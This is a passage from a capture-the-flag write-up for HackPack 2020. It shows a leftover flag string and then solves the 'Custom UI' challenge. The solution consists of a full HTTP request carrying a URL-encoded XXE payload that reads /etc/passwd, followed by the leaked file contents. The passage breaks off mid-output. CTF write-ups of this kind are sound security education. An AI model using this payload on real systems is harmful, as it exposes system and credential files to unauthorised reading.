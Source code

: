     <p>Just to show our appreciation for your morbid commitment to our life-altering products, we're giving you this flag:</p>
    <code>flag{0h_my_@ch1ng_p@ncre@5_th33$3_@r3_d3l1c10$0}</code>


## Custom UI

> How often do you visit the website just to bounce back because of bad design? Now we developed a new feature, which gives you the ability to change the design! Check out a new feature: custom-ui.cha.hackpack.club

![page](/media/2020.04/hackpack_custom_ui.png)

We can input data to change the button color and add text to it. If we input
`<script>` we trigger an error:

    :::text
    Warning: DOMDocument::loadXML(): Opening and ending tag mismatch: script line 1 and value in Entity, line: 1 in /var/www/html/index.php on line 12
    Warning: DOMDocument::loadXML(): Opening and ending tag mismatch: value line 1 and button in Entity, line: 1 in /var/www/html/index.php on line 12
    Warning: DOMDocument::loadXML(): Premature end of data in tag button line 1 in Entity, line: 1 in /var/www/html/index.php on line 12
    Warning: simplexml_import_dom(): Invalid Nodetype to import in /var/www/html/index.php on line 13

Therefore we will go for a [XML External Entity (XXE) Injection](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection).

    :::text
    POST /? HTTP/1.1
    Host: custom-ui.cha.hackpack.club
    Content-Type: application/x-www-form-urlencoded
    Cookie: debug=false
    Content-Length: 198

    xdata=%3c!DOCTYPE%20foo%20[%3c!ENTITY%20xxez1rnx%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fpasswd%22%3e%20]%3e%3cbutton%3e%3ccolor%3e%26xxez1rnx%3b%3c%2fcolor%3e%3cvalue%3eiii%3c%2fvalue%3e%3c%2fbutton%3e

    <SNIP>
    <body>
      <div style="max-width:600px; margin:auto">
        <h1>Your custom button!</h1>
              <button style="background-color: root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin